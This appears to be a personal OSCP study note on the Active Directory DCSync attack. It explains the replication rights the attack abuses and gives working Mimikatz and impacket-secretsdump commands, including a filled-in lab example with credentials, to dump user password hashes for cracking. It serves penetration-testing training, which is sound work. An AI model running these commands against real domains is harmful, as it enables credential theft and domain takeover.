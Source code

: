 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/n-active-directory-attacks/6-dc-sync-attack/"}
---
```


---------
- Domain controllers typically rely on more than one DC for redundancy.
- Directory Replication Service (DRS) Remote Protocol uses "replication" to synchronize.
- A domain controller may request an update for a specific object using the "IDL_DRSGetNCChanges" API.
- Issuing an object update request from a user with certain privileges will work even though its not coming from a DC.
- To launch a replication the user needs rights to:
	- _Replicating Directory Changes_
	- _Replicating Directory Changes All_ 
	- _Replicating Directory Changes in Filtered Set_
- Normally, Domain Admins, Enterprise Admins, and Administrator groups have these rights, which will let them perform a "dcsync attack" to request any user hashes.
-------------------------------------
### Local DCSync Attack with Mimikatz:
1. Start Mimikatz.
2. Perform dump:
```
lsadump::dcsync /user:corp\Administrator
```
3. Crack NTLM with hashcat.
------------
### Remote DCSync Attack with Impacket:
1. Run attack from Kali:
```
impacket-secretsdump -just-dc-user <targetuser> <domain/user-to-authenticate>:"<password-with-escaped-chars>"@<auth-user-ip>
```
Example:
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.72
```

